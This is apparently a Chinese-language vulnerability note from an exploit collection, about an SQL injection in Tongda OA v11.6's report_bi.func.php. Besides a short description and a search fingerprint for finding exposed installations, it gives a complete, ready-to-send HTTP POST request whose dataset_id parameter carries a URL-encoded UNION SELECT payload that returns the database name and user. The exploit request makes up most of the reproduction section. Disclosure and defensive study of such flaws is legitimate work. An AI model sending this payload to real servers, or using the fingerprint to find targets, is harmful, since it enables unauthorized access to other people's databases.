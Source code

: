 # 通达OA v11.6 report_bi.func.php SQL注入漏洞

## 漏洞描述

通达OA v11.6 report_bi.func.php 存在SQL注入漏洞，攻击者通过漏洞可以获取数据库信息

## 漏洞影响

```
通达OA v11.6
```

## 网络测绘

```
app="TDXK-通达OA"
```

## 漏洞复现

登陆页面

![image-20220520154236968](images/202205201542062.png)

发送请求包执行SQL语句

```
POST /general/bi_design/appcenter/report_bi.func.php HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 113
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

_POST[dataset_id]=efgh%27-%40%60%27%60%29union+select+database%28%29%2C2%2Cuser%28%29%23%27&action=get_link_info&
```

![image-20220520154246274](images/202205201542313.png)